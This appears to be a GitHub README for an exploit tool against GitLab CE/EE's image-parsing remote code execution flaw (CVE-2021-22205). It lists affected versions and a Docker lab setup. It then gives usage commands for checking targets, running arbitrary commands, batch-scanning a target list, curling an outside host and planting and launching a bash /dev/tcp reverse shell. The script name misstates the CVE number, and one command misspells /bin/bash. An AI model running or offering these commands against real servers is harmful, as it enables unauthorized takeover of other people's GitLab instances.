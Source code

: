 ### Vuln Impact

An issue has been discovered in GitLab CE/EE affecting all versions starting from 11.9. GitLab was not properly validating image files that were passed to a file parser which resulted in a remote command execution.

### Vuln Product

- Gitlab CE/EE < 13.10.3
- Gitlab CE/EE < 13.9.6
- Gitlab CE/EE < 13.8.8

### Environment

```C
export GITLAB_HOME=/srv/gitlab

sudo docker run --detach \
  --hostname gitlab.example.com \
  --publish 443:443 --publish 80:80 \
  --name gitlab \
  --restart always \
  --volume $GITLAB_HOME/config:/etc/gitlab \
  --volume $GITLAB_HOME/logs:/var/log/gitlab \
  --volume $GITLAB_HOME/data:/var/opt/gitlab \
  gitlab/gitlab-ce:13.9.1-ce.0
```

### Vunl Check

##### Basic usage

```c
python3 CVE-2021-2205.py
```

![img](img/usage.png)

##### Vuln check

```c
python3 CVE-2021-2205.py -v true -t http://gitlab.example.com
```

![img](img/check.png)

##### command execute

```c
python3 CVE-2021-2205.py -a true -t http://gitlab.example.com -c "curl http://192.168.59.1:1234/1.txt"
```

![attack](img/attack.png)

```c
python3 CVE-2021-2205.py -a true -t http://gitlab.example.com -c "echo 'Attacked by Al1ex!!!' > /tmp/1.txt"
```

![attack_command1](img/attack_command1.png)

![attack_command2](img/attack_command2.png)

##### batch scan

```
python3 CVE-2021-2205.py -s true -f target.txt
```

![scan_result](img/scan_result.png)

##### Reserve Shell

```
python3 CVE-2021-2205.py -a true -t http://gitlab.example.com -c "echo 'bash -i >& /dev/tcp/ip/port 0>&1' > /tmp/1.sh"
```

![reverse_shell1](img/reverse_shell1.png)

![reverse_shell2](img/reverse_shell2.png)

```
python3 CVE-2021-2205.py -a true -t http://gitlab.example.com -c "chmod +x /tmp/1.sh"
```

![reverse_shell3](img/reverse_shell3.png)

![reverse_shell4](img/reverse_shell4.png)

```
python3 CVE-2021-2205.py -a true -t http://gitlab.example.com -c "/bin/bahs /tmp/1.sh"
```

![reverse_shell5](img/reverse_shell5.png)

### Reference

https://github.com/mr-r3bot/Gitlab-CVE-2021-22205

https://devcraft.io/2021/05/04/exiftool-arbitrary-code-execution-cve-2021-22204.html